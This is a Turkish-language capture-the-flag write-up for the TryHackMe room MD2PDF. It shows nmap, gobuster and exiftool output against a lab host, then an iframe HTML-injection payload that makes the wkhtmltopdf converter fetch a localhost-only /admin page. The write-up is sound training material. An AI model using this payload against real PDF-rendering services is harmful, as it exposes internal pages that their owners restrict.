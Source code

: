 ```yaml
---
title: MD2PDF
date: 2024-03-02 12:23:12 
categories: [TryHackMe]
tags: [Easy]
image: images/md2pdf.png
---
```


"TopTierConversions LTD, en yeni ve en harika ürün lansmanını duyurmaktan gurur duyar: MD2PDF.

Bu kullanımı kolay yardımcı program, markdown dosyalarını PDF'e dönüştürür ve tamamen güvenlidir!" 

<a href="https://tryhackme.com/r/room/md2pdf">MD2PDF</a>

---

nmap :

````console
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV 10.10.39.156    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-04 07:03 UTC
WARNING: Service 10.10.39.156:5000 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
WARNING: Service 10.10.39.156:80 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for 10.10.39.156 (10.10.39.156)
Host is up (0.081s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  rtsp
5000/tcp open  rtsp
````

80 portunda web servisi çalışıyor. Siteyi ziyaret edelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/MD2PDF/images/1.png?raw=true)

5000 portu:

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/MD2PDF/images/2.png?raw=true)


İki sitede dizin taraması yaptım. İkisinde de /admin dizini var ve erişimimiz yok.

````console
┌──(root㉿kali)-[~]
└─# gobuster dir --wordlist=/usr/share/wordlists/dirb/big.txt --url http://10.10.39.156 -t 40
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.39.156
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 403) [Size: 166]
````

````console
┌──(root㉿kali)-[~]
└─# gobuster dir --wordlist=/usr/share/wordlists/dirb/big.txt --url http://10.10.39.156:5000 -t 40
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.39.156:5000
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 403) [Size: 166]
````


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/MD2PDF/images/3.png?raw=true)


Dizine sadece localhosttan erişilebiliyor.

Siteye geri dönelim. Deneme amaçlı bir PDF oluşturuyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/MD2PDF/images/4.png?raw=true)

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/MD2PDF/images/5.png?raw=true)


PDF dosyasını indirip exiftool ile inceledim.

````console
┌──(root㉿kali)-[~/Desktop]
└─# exiftool document.pdf                                        
ExifTool Version Number         : 12.76
File Name                       : document.pdf
Directory                       : .
File Size                       : 7.7 kB
File Modification Date/Time     : 2024:05:04 07:18:50+00:00
File Access Date/Time           : 2024:05:04 07:18:50+00:00
File Inode Change Date/Time     : 2024:05:04 07:18:50+00:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Title                           : 
Creator                         : wkhtmltopdf 0.12.5
Producer                        : Qt 4.8.7
Create Date                     : 2024:05:04 07:18:12Z
Page Count                      : 1
````

Creator bilgilerinde bu web sitesinin HTML'i PDF'e dönüştürdüğünü görüyoruz. HTML Injection saldırısı deneyebiliriz. /admin dizinine erişimimiz yoktu. `<iframe src="http://localhost:5000/admin"></iframe>` payloadı ile dizine gitmeye çalıştım.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/MD2PDF/images/6.png?raw=true)

Ve sayfanın içeriğini görüntüledim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/MD2PDF/images/7.png?raw=true)

